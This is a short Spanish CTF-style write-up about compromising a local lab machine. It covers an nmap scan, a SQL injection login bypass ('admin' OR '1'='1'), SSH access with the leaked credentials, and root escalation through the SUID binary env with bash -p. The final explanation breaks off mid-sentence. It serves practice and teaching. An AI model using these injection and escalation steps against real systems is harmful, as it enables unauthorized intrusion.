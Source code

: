 Fecha: 07/08/2024

Empiezo haciendo nmap: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240807093218.png)

Compruebo ambas versiones con searchsploit, sin encontrar resultados. 

Visito la el servidor http desde un navegador, encontrando un formulario de login. Pruebo si puedo hacer SQL Inyection (escribiendo ' en el usuario y cualquier cosa en la contraseña), y obtengo que sí. 
![](Imágenes/Pasted%20image%2020240807093509.png)

Utilizo `admin` como usuario y `admin' OR '1'='1` como contraseña, con lo que obtengo un usuario y contraseña que pruebo conectándome por ssh a la máquina. (satisfactoriamente) 

![](Imágenes/Pasted%20image%2020240807093817.png)
Busco programas con el bit SUID: 
``` 
find / -perm -4000 -user root 2>/dev/null
```

![](Imágenes/Pasted%20image%2020240807094900.png)

Probaré con env, abriendo una terminal y consiguiendo ser root:
```
/usr/bin/env /bin/bash -p
```

- /usr/bin/env se usa para ejecutar un comando en un nuevo entorno modificado. 
- /bin/bash es el comando que ejecuto
- -p es una opción que tienen bash y sh para 

![](Imágenes/Pasted%20image%2020240807095221.png)

